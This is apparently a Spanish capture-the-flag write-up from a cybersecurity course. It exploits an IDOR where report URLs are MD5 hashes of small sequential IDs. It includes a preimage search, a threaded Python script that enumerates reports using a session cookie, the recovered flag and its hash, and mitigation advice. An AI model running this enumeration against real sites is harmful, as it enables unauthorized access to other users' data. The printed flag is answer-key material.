

# 🤖🔌 Desafío: Apagar la IA

> ℹ️ **Nota:** Desafío del **curso de ciberseguridad pagado por la empresa** en la plataforma [softwareseguro.com.ar](https://app.softwareseguro.com.ar).

---

### 🧠 Descripción del caso

> *Una Inteligencia Artificial se ha descontrolado y debemos apagarla. Existe un código que permite apagarla.*
>
> *Se sabe que ese código es de 16 dígitos y que se encuentra en un archivo HTML del sitio de BlackHackers. Te consiguieron acceso a 2 archivos pero ahí no está el código de 16 dígitos. ¿Podrías ayudar a la humanidad a encontrar ese código?*
>
> *Una vez que encuentres el código, generá el hash MD5 del mismo y eso envialo al juez.*

**Objetivo:** encontrar el código de 16 dígitos escondido en uno de los reportes del sitio y enviar su hash MD5 al juez.

---

### 📷 Estado inicial

La página de inicio muestra un `<ul>` con **2 reportes**, cada uno como un link a `/codes/<hash>/`:



```html
<ul>
  <li><a href="/codes/0e1422ea79781ee046484893ce0010c4/" target="_blank">0e1422ea79781ee046484893ce0010c4</a></li>
  <li><a href="/codes/0602940f23884f782058efac46f64b0f/" target="_blank">0602940f23884f782058efac46f64b0f</a></li>
</ul>
```

Al abrir cada reporte, se ve una lista de números de 7 a 9 dígitos (texto plano, **sin links**). El código de 16 dígitos **no está** en ninguno de los 2 reportes entregados.

---

### 🔍 Análisis técnico

Los reportes se direccionan con una URL del tipo `/codes/<hash-MD5>/`. El hash de 32 caracteres hex **aparenta** ser un identificador opaco e imposible de adivinar.

La clave del reto fue descubrir **de qué** es ese MD5. Tomando los 2 hashes conocidos (que sabemos que existen porque devuelven `200`) e intentando encontrar su preimagen con un número entero chico:

```python
import hashlib
for i in range(0, 5_000_000):
    h = hashlib.md5(str(i).encode()).hexdigest()
    if h == "0e1422ea79781ee046484893ce0010c4": print("rep1 =", i)  # -> 9912
    if h == "0602940f23884f782058efac46f64b0f": print("rep2 =", i)  # -> 9995
```

Resultado:

- `0e1422ea79781ee046484893ce0010c4` = **`MD5("9912")`**
- `0602940f23884f782058efac46f64b0f` = **`MD5("9995")`**

> 💡 **Los reportes se identifican por un ID entero secuencial chico**, y la URL es simplemente `/codes/MD5(str(id))/`. El MD5 no agrega seguridad real: el input es un número adivinable y todo el espacio es **enumerable**.

---

### 💥 Explotación

Esto es un **IDOR escondido detrás de un hash** (*security through obscurity*). Como el ID real es un entero chico, se calculan los MD5 **offline** y se recorren todos los reportes buscando el número de 16 dígitos:

```python
import hashlib, requests, re
from concurrent.futures import ThreadPoolExecutor, as_completed

BASE = "https://chl-...-apagar-ia.softwareseguro.com.ar"
cookies = {"cf_clearance": "<cf_clearance>"}
md5 = lambda s: hashlib.md5(s.encode()).hexdigest()

def fetch(i):
    r = requests.get(f"{BASE}/codes/{md5(str(i))}/", cookies=cookies, timeout=20)
    if r.status_code == 200:
        for n in re.findall(r"<li>(\d+)</li>", r.text):
            if len(n) == 16:
                return i, n
    return None

with ThreadPoolExecutor(max_workers=25) as ex:
    for res in ex.map(fetch, range(9900, 13000)):
        if res:
            i, code = res
            print(f"Reporte {i}: {code} -> MD5 {md5(code)}")
```

Los reportes válidos arrancan en el ID **9912** y continúan desde **10000** hacia arriba (con huecos). Barriendo el rango se encontró el código en el **reporte `11520`**.

---

### ✅ Resultado

| Dato | Valor |
|---|---|
| Reporte con el código | ID `11520` → `/codes/cdf49f5251e7b3eb4f009483121e9b64/` |
| **Código de 16 dígitos** | `5524663362514956` |
| **MD5 del código (enviado al juez)** | `a8e0e8ff02dde0f62fdf4de5142d7de0` |

El juez dio el hash por **válido**. 🤖🔌 IA apagada.

---

### 🔓 Vulnerabilidad encontrada

**IDOR por enumeración + ofuscación débil (security through obscurity):**

- Los objetos (reportes) se referencian por un ID entero **secuencial y predecible**.
- El MD5 en la URL da una falsa sensación de seguridad, pero no es un control de acceso: cualquiera puede calcular `MD5(id)` para todos los IDs del rango.
- No hay autorización que impida acceder a reportes "no entregados", así que se accede a todos enumerando.

---

### 🛡️ Mitigación recomendada

- **No confiar en la ofuscación**: un hash en la URL no reemplaza un control de autorización. El servidor debe verificar que el usuario tenga permiso de ver ese reporte.
- Usar identificadores **no predecibles y no enumerables** (UUIDv4 aleatorios) *además* del control de acceso, nunca en su lugar.
- Aplicar **rate limiting** para dificultar la enumeración masiva de recursos.
- No exponer datos sensibles (como un código de apagado) en recursos accesibles por simple adivinación de ID.
